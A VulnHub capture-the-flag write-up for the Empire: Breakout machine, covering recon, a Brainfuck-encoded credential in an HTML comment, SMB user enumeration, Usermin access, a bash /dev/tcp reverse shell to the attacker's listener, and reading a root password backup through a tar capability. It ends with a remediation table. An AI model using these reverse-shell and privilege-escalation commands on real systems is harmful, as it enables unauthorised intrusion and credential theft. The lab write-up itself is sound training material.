





# Empire: Breakout — VulnHub Writeup

**Platform:** VulnHub | **Difficulty:** Beginner-Intermediate | **Target IP:** 192.168.32.137 | **Attacker IP:** 192.168.32.128

## Machine info



## Summary

**Empire: Breakout** is built around a hidden Brainfuck-encoded credential embedded in an HTML comment on the default Apache page, paired with a username disclosed through SMB null-session enumeration. Those credentials granted access to Usermin, which exposed a command shell used to obtain a reverse shell. From there, a misconfigured Linux capability (`cap_dac_read_search`) on the `tar` binary allowed reading a root-owned backup file containing the root password.

**Attack chain:** Nmap recon → SMB null-session enumeration (username disclosure) → Hidden Brainfuck-encoded credential (Apache default page source) → Usermin login → Command shell → Reverse shell → Linux capability abuse (`tar`) → Root password recovery → Root

## 1. Reconnaissance





```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 192.168.32.137

PORT      STATE SERVICE     REASON         VERSION
80/tcp    open  http        syn-ack ttl 64 Apache httpd 2.4.51 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
139/tcp   open  netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp   open  netbios-ssn syn-ack ttl 64 Samba smbd 4
10000/tcp open  http        syn-ack ttl 64 MiniServ 1.981 (Webmin httpd)
20000/tcp open  http        syn-ack ttl 64 MiniServ 1.830 (Webmin httpd)
```

Four services of interest: Apache with the default page, SMB (139/445), and two Webmin/Usermin instances on ports 10000 and 20000.

## 2. Credential Discovery

`gobuster` against port 80 only revealed Apache's default documentation:

```
gobuster dir -u http://192.168.32.137/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
manual               (Status: 301) [Size: 317] [--> http://192.168.32.137/manual/]
```



Viewing the page source of this default page revealed a hidden HTML comment containing Brainfuck code:

```html
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
-->
```

Decoded with a Brainfuck interpreter (dcode.fr):

```
Output: .2uqPEfj3D<P'a-3
```

`enum4linux` with a null session disclosed a local Unix user via RID cycling:

```
enum4linux 192.168.32.137
...
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\cyber (Local User)
```

Username obtained: **cyber**.

Resulting credentials: **cyber : .2uqPEfj3D<P'a-3**

## 3. Initial Access & Post-Exploitation

Successful login to Usermin (port 20000) with the credentials above. Usermin exposes a webmail client with terminal access, from which the user flag was read:

```
[cyber@breakout ~]$ ls
tar
user.txt
[cyber@breakout ~]$ cat user.txt
3mp!r3{You_Manage_To_Break_To_My_Secure_Access}
```

A reverse shell was launched from that terminal to a local listener:

```
cyber@breakout:~$ bash -i >& /dev/tcp/192.168.32.128/4444 0>&1
```

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [any] 4444 from (UNKNOWN) [192.168.32.137] 35998
```

Shell stabilization:

```
cyber@breakout:~$ script /dev/null -c bash
^Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

## 4. Privilege Escalation

Enumerating Linux capabilities:

```
cyber@breakout:~$ getcap -r / 2>/dev/null
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep
```

The `tar` binary in cyber's home directory carries `cap_dac_read_search`, allowing it to read any file on the system, bypassing standard read permissions.

File of interest located in `/var/backups`:

```
cyber@breakout:/var/backups$ ls -la
-rw-------  1 root root    17 Oct 20  2021 .old_pass.bak
```

Reading the protected file by abusing the `tar` capability:

```
cyber@breakout:~$ ./tar cf /dev/stdout /var/backups/.old_pass.bak
./tar: Removing leading `/' from member names
var/backups/.old_pass.bak0000600000000000000000000000002114134001114014303 0ustar  rootrootTs&4&YurgtRX(=~h
```

```
cyber@breakout:~$ su root
Password:
root@breakout:/home/cyber#
```



```
root@breakout:~# cat r0Ot.txt
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}

Author: Icex64 & Empire Cybersecurity
```

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| SMB null session allowed enumerating local users via RID cycling | Restrict null sessions and anonymous RPC in Samba (`restrict anonymous`, disable guest access) |
| Access credential hidden (Brainfuck-obfuscated) in an HTML comment on a public page | Never embed credentials, even obfuscated, in publicly accessible source code |
| Usermin exposed a full command shell to a standard mail user | Restrict or disable Usermin's shell module for users without administrative need |
| `cap_dac_read_search` capability assigned to a user-owned `tar` binary, allowing arbitrary file reads | Do not assign elevated capabilities to binaries in user directories; audit regularly with `getcap -r /` |
| Root password stored in plaintext in a backup (`/var/backups/.old_pass.bak`) | Never store passwords in plaintext, not even in backups; use a secrets manager |
